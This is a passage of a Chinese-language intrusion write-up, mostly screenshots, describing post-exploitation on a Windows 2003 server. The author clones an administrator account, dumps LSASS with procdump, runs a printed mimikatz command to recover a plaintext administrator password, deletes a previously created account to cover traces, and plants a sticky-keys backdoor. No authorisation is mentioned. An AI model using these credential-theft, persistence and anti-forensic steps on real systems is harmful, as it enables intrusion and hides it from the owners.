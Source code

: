 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyia1IGGbkK3vRR6RfyscJOuMoDEMrqYF8nnGDGzMywnP8Fg1pNIavQNOg/640?wx_fmt=png)

由于 03 服务器不能复制文件，我只能把文件通过映射到他的磁盘来传输文件：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaHgpTgzvicvmD4586bqfO7LE9LImLjVUDBJJ8sLjwHJT9OTkqRlgfKRQ/640?wx_fmt=png)

老思路先克隆个 administrator 用户过来：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaMD5W2WDkGYRib0cN8yjm69yOjr9qP3b9MAY67Iic1rCqFKXqMHDFHH3A/640?wx_fmt=png)

克隆后发现之前 administrator 之前执行了一些命令：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiagDV7icCTIxXxiaZibmMkuSbMffbyYmZx5apWF3kev2RzBUgnZkRRE4kBQ/640?wx_fmt=png)

不管了，先用 procdump 把密码读出来：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiatxHqZia28yMtYcicYllIUnQyPSqMiasymdRrzCJ4VWw5q823aib1PoJ1nw/640?wx_fmt=png)

然后拖会本地后删除文件：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaKYmibiaM2HPfv35PuvtvnsBzgYiaDDO7gIEwSkIO6Hte5PLQZH9AugPBw/640?wx_fmt=png)

最后使用 mimikatz 进行解密：  

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
```

得到了 administrator 的明文密码：  

```
* Username : Administrator
   * Domain   : *****DB
   * Password : *****@dba
```

然后直接登录 administrator 的机器：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiarExNMgibSMG6LicUwAKuCrTXH6PUjhGzxZjwicMRRQgOpypYFjmpbjQpA/640?wx_fmt=png)

然后把我之前创建的 asp***** 用户删除：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiazsrLGdzibfHIdmYDqhyxwxISuyk0OxTywibQlt00w6ccpia1AdLoofENg/640?wx_fmt=png)

通过搜集信息的时候发现了 11 年这台机器的 rdp 记录：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaLx2eaTgNUhw0ZXp8XrBeQ1ymzdf6M9M5nG6skRJN1e3HzDK4jU0V2w/640?wx_fmt=png)

但是连接不上：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaANibhVHFI1qIYor91yPFZarblRxag0rEsLiaraicagdMGY8a2cLmHjuLQ/640?wx_fmt=png)

然后再这台机器上没找到可利用的信息后，随手留了一个粘滞键的后门：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiaBuhEQicZhTQAGouicPCv2K6Uibwgw9zFYialKEQA4YtGGibMMC3hs6o6eXg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKSInmnvgEXXgZkLznYcZyiatibPoDvOvibGPTFVjFDSAxOQRo83h2HQicMZiabhZ1eWurrRh9g5b1xj3g/640?wx_fmt=png)
